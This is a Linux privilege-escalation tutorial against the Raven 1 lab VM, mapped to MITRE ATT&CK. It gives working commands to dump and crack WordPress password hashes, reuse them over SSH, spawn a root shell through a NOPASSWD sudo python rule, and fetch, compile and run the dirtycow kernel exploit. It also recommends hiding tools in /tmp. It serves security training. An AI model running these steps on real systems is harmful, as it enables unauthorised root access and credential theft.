






## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux

- Parrot OS

The demonstrations outlined in this document were performed against a vulnerable Linux VM that has been configured to teach you the process of exploitation and privilege escalation. It can be downloaded here: https://www.vulnhub.com/entry/raven-1,256/

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Privilege Escalation Techniques

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities. Examples of elevated access include:

- SYSTEM/root level

- Local administrator

- A user account with admin-like access

- User accounts with access to a specific system or performs a specific function

The following is a list of key techniques and sub techniques that we will be exploring:

- Local Accounts

- Exploiting misconfigured SUDO Permissions

- Kernel Exploits

## Scenario

Our objective is to elevate our privileges to that of the “root” user on the target server.

## Infrastructure

The following diagram illustrates the various operating systems we will using and their requirements.

## Local Accounts

The first privilege escalation technique we will be exploiting is the process of finding and cracking local account credentials in order to elevate our privileges. Adversaries may obtain and abuse credentials of a local account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service.

During the initial exploitation phase, we were able to gain access to the MySQL server on the target system, consequently, we can utilize our newfound access to dump the user account credentials from the WordPress database and test the credentials for password re-use.

This can be done by following the steps outlined below:

1. The first step will involve logging in to the MySQL database server with the credentials we obtained. This can be done by running the following command:

        mysql -u root -p

1. After logging in, we can select the WordPress database by running the following command:

        use wordpress;

1. We can now get a listing of all the tables in the WordPress database by running the following command:

        show tables;

    As shown in the following screenshot, this will output a list of all the tables in the WordPress database, in this case, we are interested in the wp_users table.

    

5. We can dump the contents of the wp_users table by running the following command:

        select * from wp_users;

    As shown in the following screenshot, this will output a list of WordPress user accounts, their IDs, and their corresponding password hashes.

    

    Given the fact that we have already cracked the password for the user “michael”, we can turn our attention to cracking the password hash for the user “steven”.

    In this case, WordPress has encrypted the passwords with the MD5 hashing algorithm, as a result, we will need to crack the hash in order to obtain the cleartext password for the user “steven”.

### Cracking MD5 Hashes with John The Ripper

WordPress MD5 password hashes can be cracked with John The Ripper. John the Ripper is a free password cracking software tool. Originally developed for the Unix operating system.

1. The first step will involve copying the password hash and pasting it into a text file on your Kali VM, after which, you will need to add the respective username of the hash as a prefix to the hash as shown in the screenshot below.

    

    After adding the hash as shown in the preceding screenshot, save the text file with a file name of hash.txt

1. We can now use John The Ripper to crack the hash by running the following command on Kali:

        sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

    After a few minutes, John The Ripper successfully cracks the hash and outputs the clear text passwords as shown in the screenshot below.

    

    In this case, we are able to identify that the password for the user “steven” is “pink84”. We can now use this password to login to WordPress, alternatively, we can also attempt to log in as the user “steven” via SSH in order to determine if the password has been reused.

1. This can be done by running the following command:

        ssh steven@<SERVER-IP>

    This will prompt you to specify the password for the user, after inputting the cracked password, we are able to authenticate successfully and obtain access via a second local account and have consequently increased our domain of control on the target server.

    Quick enumeration reveals that the user “steven” is not a privileged user, however, we can still perform additional enumeration in order to identify whether he has any specific permissions assigned to his account.

## Exploiting Misconfigured SUDO Permissions

The user “steven” is not a part of the “sudo” group and doesn’t have any administrative privileges, however, he may have a few specific permissions assigned to his account that need to be enumerated manually.

In order to get a complete scope of the permissions assigned to a user account, we can leverage the following command:

    sudo -l

Alternatively, we can also automate the process by leveraging an automated enumeration script called LinEnum.

More information about LinEnum can be found here: https://github.com/rebootuser/LinEnum.git

1. In order to utilize LinEnum, we will need to transfer it onto our target system, this can be done by downloading the script to your Kali VM, setting up a local web server, and downloading it to the target. Alternatively, you can also download it directly to the target server by running the following command:

        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.

1. After transferring the LinEnum script onto the target system, we will need to provide it with executable permissions, this can be done by running the following command:

        chmod +x /tmp/LinEnum.sh

1. We can now execute the script by running the following command:

        /tmp/LinEnum.sh

    The script will begin performing checks and will output the results in real-time, after which, we can analyze the results in order to identify vulnerabilities and misconfigurations that we can utilize to elevate our privileges.

1. As shown in the following screenshot, we are able to identify that the NOPASSWD SUDO permission has been assigned to the /usr/bin/python binary for the user “steven”.

    

    The NOPASSWD SUDO permission allows a user to execute a binary or run a command with “root” privileges without providing the “root” password.

    This permission is frequently implemented by system administrators to provide unprivileged users with the ability to run specific commands with “root” privileges as opposed to providing user accounts with administrative privileges.

1. In this case, we can leverage this misconfiguration to obtain root privileges by spawning a privileged bash session through the Python IDLE/Interpreter. This can be done by running the following command:

        sudo python -c 'import os; os.system("/bin/bash")'

    As shown in the following screenshot, the preceding command will spawn a new bash session with “root” privileges.

    

    We have successfully been able to elevate our privileges to the highest level locally by exploiting a misconfigured SUDO permission.

## Kernel Exploits

The final privilege escalation technique we will be exploring is the process of utilizing kernel exploits in order to elevate our privileges on the target system.

This can be achieved performed automatically through the use of exploitation frameworks like Metasploit, however, in this case, we will be exploring the process of identifying, compiling and executing kernel exploits on the target manually.

It is to be noted that Kernel exploits are not a recommended or preferred escalation vector, primarily because the exploits interfere and interact with the Linux kernel, which can consequently lead to kernel panics or data loss. Furthermore, Kernel exploits are not a silver bullet and do not guarantee successfully privilege escalation.

1. The first step in this process will involve identifying kernel vulnerabilities on our target server, this process can be automated through the use of the Linux-Exploit-Suggester script. Linux-Exploit-Suggester is a Linux privilege escalation auditing tool that scans the target for potential vulnerabilities. More information regarding this script can be found here: https://github.com/mzet-/linux-exploit-suggester

    In order to use the script, we will need to transfer it over to the target system, this can be done by running the following command on the target system:

        wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

    Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.

1. After downloading the script on to the target system, we will need to provide the script with executable permissions, this can be done by running the following command:

        chmod +x /tmp/les.sh

1. We can now execute the script on the target system by running the following command:

        /tmp/les.sh

    As shown in the following screenshot, the script will output a list of vulnerabilities that affect the target’s specific kernel version and distribution.

    

    The results sort the exploits based on probability of success, whereby the exploits listed first offer the highest chances of success, in this case, we are able to identify the “dirtycow” exploit as a good candidate as it meets the distribution and kernel version requirements.

    Linux-Exploit-Suggester also provides you with reference links that explain how the exploit work and what vulnerability they are exploiting, in addition to this, it also provides you with the download link for the exploit code.

1. You can download the “dirtycow” exploit code on our Kali VM for analysis by opening the following link: https://www.exploit-db.com/exploits/40839

1. After downloading the exploit code, we open it up with a text editor for analysis. As shown in the following screenshot, the exploit code contains various comments that explain how it works and how it can be compiled.

    

    This exploit creates a new user account with root privileges and does this by using the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line. The user on the target system will be prompted for the new password when the binary is run. After running the exploit you should be able to login with the newly created user.

1. Now that we have an understanding of how this exploit works, we can transfer it over to the target and compile it. This can be done by running the following command:

        wget https://www.exploit-db.com/download/40839

1. After transferring the exploit code to the target server, we can compile it with GCC (GNU C Compiler) by running the following command:

        gcc -pthread 40839.c -o exploit -lcrypt

1. If the compilation is successful, the resulting binary will be created, we can execute the exploit binary by running the following command:

        chmod +x exploit
        ./exploit

    After running the exploit you will be prompted to specify a password for the new user.

    As per the instructions outlined in the exploit code, if successful, the exploit binary should create a new privileged user account called “firefart” unless modified in the exploit code.

1. The exploit will take a few seconds to execute, after which, it will prompt you to check whether the “firefart” user account has been added as shown in the following screenshot.

    

    In this case, checking the contents of the /etc/passwd file does not reveal any user account called “firefart” and as a result, we can deduce that this kernel exploit failed and was not able to provide us with an elevated user account.

    Given that we have already obtained root privileges by exploiting a misconfigured SUDO permission, we do not need to follow through with this escalation vector. The reason this technique was covered was to demonstrate the fact that not all escalation vectors and exploits will work and as a result, you will need to use a multifaceted approach when it comes down to privilege escalation.